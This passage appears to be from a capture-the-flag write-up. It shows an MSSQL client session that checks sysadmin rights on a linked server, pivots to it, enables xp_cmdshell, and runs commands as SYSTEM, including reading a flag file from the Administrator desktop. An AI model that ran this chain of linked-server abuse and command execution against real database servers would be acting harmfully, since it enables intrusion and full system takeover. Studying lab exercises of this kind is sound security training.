SQL (john  guest@master)> SELECT * FROM OPENQUERY([LOCAL.TEST.LINKED.SRV], 'SELECT IS_SRVROLEMEMBER(''sysadmin'')');

-
1
```

Got the flag.

```
SQL (john  guest@master)> use_link [LOCAL.TEST.LINKED.SRV]
SQL >[LOCAL.TEST.LINKED.SRV] (testadmin  dbo@master)>
SQL >[LOCAL.TEST.LINKED.SRV] (testadmin  dbo@master)> enable_xp_cmdshell
INFO(WIN-HARD\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(WIN-HARD\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL >[LOCAL.TEST.LINKED.SRV] (testadmin  dbo@master)> xp_cmdshell whoami
output
-------------------
nt authority\system
NULL
SQL >[LOCAL.TEST.LINKED.SRV] (testadmin  dbo@master)> xp_cmdshell "type C:\Users\Administrator\Desktop\flag.txt"
output
---------------------------
HTB{46u$!n9_l!nk3d_$3rv3r$}
SQL >[LOCAL.TEST.LINKED.SRV] (testadmin  dbo@master)>
```